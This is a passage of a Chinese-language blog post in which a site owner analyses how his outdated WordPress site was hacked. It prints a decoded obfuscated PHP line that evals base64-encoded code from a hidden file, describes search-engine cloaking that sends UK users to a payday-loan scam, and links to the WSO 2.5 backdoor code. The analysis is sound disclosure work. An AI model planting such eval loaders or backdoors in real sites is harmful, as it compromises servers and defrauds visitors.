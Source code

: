   <p>
    对于计算机来说，这很明了，但对我这样的人类来说，要弄明白发生什么却很困难。我必须先将所有的乱七八糟的字符转换成常规字符。我使用 Python 来转换。在我的 Mac 上，打开终端，键入 python，然后用 python 的 print 命令来输出那一段乱码 ASCII 块：
  </p>
  
  <pre><code>print("[put your gibberish here]")
</code></pre>
  
  <p>
    这生成一个命令，说的是：
  </p>
  
  <pre><code>Look for: |(.*)|ei
Replace it with: eval('$kgv=89483;'.base64_decode(implode("\n",file(base64_decode("\1")))));$kgv=89483;
In the text:         L2hvbWUvZnJvZ2kyL3B1YmxpY19odG1sL2tvcmVhL3dwLWluY2x1ZGVzL2pzL2Nyb3AvbG9nLy4lODI4RSUwMDEzJUI4RjMlQkMxQiVCMjJCJTRGNTc=
</code></pre>
  
  <p>
    现在，我总算找到感觉了。但是，这末尾的又是什么全新风味的杂乱代码？该文本编码使用 Base64 编码方法进行了编码。如果你有一个 Base64 编码的文本文件，你可以在 Mac OS X 或 Linux 命令行里通过下述命令解码：
  </p>
  
  <pre><code>base64 -i encoded-text.txt -o outputed-decoded.txt
</code></pre>
  
  <p>
    您也可以使用 Python，PHP，Ruby 等解码 base64，又或者在线的解码器。通过解码，得到了文件地址，该文件中包含更多要执行的代码：
  </p>
  
  <pre><code>[…]public_html/korea/wp-includes/js/crop/log/.%828E%0013%B8F3%BC1B%B22B%4F57
</code></pre>
  
  <p>
    但不只是这一个文件。那里有许多文件，里面包含着可替换的主页文本。我主页里的代码，通过前面一个命令，运行了其他隐藏在我的韩国博客一个深层目录的命令。虽然这些文件名和它们的内容使用一系列方法编码，比如 base64 编码，MD5 加密，字符转换成数字，任意值重复，还包括许多以 JSON 格式存储的内容。我还是耐心地找出所有细节，不过它似乎只针对 Google 提供不一样的主页，并且只在某些情况下。
  </p>
  
  <p>
    其中一个被黑的文件会生成一个英国 payday loan 诈骗网站 speedypaydayloan.co.uk，它连接到一个假的伦敦公司 &#8220;D and D Marketing&#8221;，可以在网上看到很多地方讨论它的诈骗行为。换句话说，英国，并且只有英国的用户在访问 Google、查找 &#8220;payday loans&#8221; 时，井底之蛙上一个被狡猾入侵过的主页就将他们定向到一个诈骗网站，又或重定向到我网站上一个被编码过的巨大列表中的任意其他网站。
  </p>
  
  <p>
    我很快就发现，不仅仅这些韩国博客下的文件可疑。它们只是黑客用来生成他们所期望有的具体结果的文件。经过对大量隐蔽代码的更多解码，我终于找到输送系统本身。要部署这个特殊的组合 &#8211; 重定向和用来重定向的隐藏页，攻击者使用一个黑客梦想套装：被称为 “WSO 2.5“ 的东西。一旦他们发现我域名上旧版本 WordPress 的安全问题，他们就可以把 WSO 套件安装到隐蔽位置，这个位置有别于上述的攻击。虽然我不知道这个 Youtube 视频（没有声音）能保留多久，你可以<a href="http://www.youtube.com/watch?v=y-Z5-uHvONc">在这里</a>看到黑客是怎样使用 WSO 的。真正用来安装控制我服务器的后门套件 PHP 代码可以在 <a href="http://pastebin.com/N0eh3Q7Y">pastebin 这里</a>找到。
  </p>
  
  <p>
    <a href="http://muninn.net/blog/wp-content/uploads/2012/06/Screen-Shot-2012-06-05-at-11.44.06.png"><img src="http://muninn.net/blog/wp-content/uploads/2012/06/Screen-Shot-2012-06-05-at-11.44.06-300x118.png" alt="" title="屏幕截图在11.44.06 2012-06-05" width="300" height="118" class="alignnone size-medium wp-image-1011" /></a>点击放大图片
  </p>
  